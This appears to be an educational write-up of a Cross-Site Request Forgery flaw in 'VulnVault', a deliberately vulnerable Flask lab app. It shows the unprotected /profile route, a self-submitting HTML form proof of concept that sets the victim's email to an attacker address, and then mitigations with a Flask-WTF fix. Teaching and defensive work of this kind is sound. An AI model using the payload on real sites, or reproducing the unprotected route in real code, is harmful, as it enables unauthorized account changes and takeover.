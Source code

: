 # Cross-Site Request Forgery (CSRF) Vulnerability Writeup

---

## 🔍 Overview

Cross-Site Request Forgery (CSRF) occurs when an attacker tricks a victim’s browser into sending unintended requests to a web application in which the victim is authenticated. This can lead to unauthorized state-changing actions like changing emails, passwords, or even initiating money transfers — all without the user's consent.

---

## 💥 Location in VulnVault

* **Route:** `/profile`
* **Vulnerable Code Snippet:**

```python
@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        if request.form.get('email'):
            return f"Email updated to: {request.form['email']}"
```

This form does not implement any CSRF token validation or referer/origin checks, making it vulnerable to CSRF attacks.

---

## 🧪 Proof of Concept

1. Host the following HTML code on a malicious site (e.g., `attacker.com`):

```html
<form action="http://localhost:5000/profile" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="submit">
</form>

<script>
  document.forms[0].submit();
</script>
```

2. If a logged-in user visits the malicious site, their browser will automatically submit the form to your vulnerable app — updating their email address without their consent.

---

## 🔓 Impact

* Unauthorized account changes (email, password, etc.)
* Possible privilege escalation
* Loss of data integrity
* Can be chained with other attacks for full account takeover

---

## 🛡️ Mitigation Strategies

* **Implement CSRF tokens** — Use random, per-session tokens embedded in every form and verified server-side.
* **Validate `Origin` or `Referer` headers** — Ensure requests originate from your own domain.
* **Use the `SameSite` cookie attribute** — Prevent cookies from being sent in cross-site requests.
* **Require re-authentication for sensitive actions** — Especially important for changes to critical account settings.

---

## ✅ Example Secure Implementation (Flask + Flask-WTF)

```python
from flask_wtf import FlaskForm
from wtforms import StringField, SubmitField
from wtforms.validators import Email
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect(app)

class ProfileForm(FlaskForm):
    email = StringField('Email', validators=[Email()])
    submit = SubmitField('Update')
```

In your template:

```html
<form method="POST">
  {{ form.hidden_tag() }}
  {{ form.email.label }} {{ form.email() }}
  {{ form.submit() }}
</form>
```

---

## 🔧 Tools for Testing

* [Burp Suite](https://portswigger.net/burp) (manual request crafting)
* [Postman](https://www.postman.com/)
* Custom HTML CSRF payloads

---

## 📚 References

* [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
* [PortSwigger: Cross-site request forgery](https://portswigger.net/web-security/csrf)
* [MDN Web Docs: SameSite cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)

---

**CSRF is silent but dangerous — it abuses user trust in a site. Always use CSRF protection on state-changing actions.** 🔐🛡️
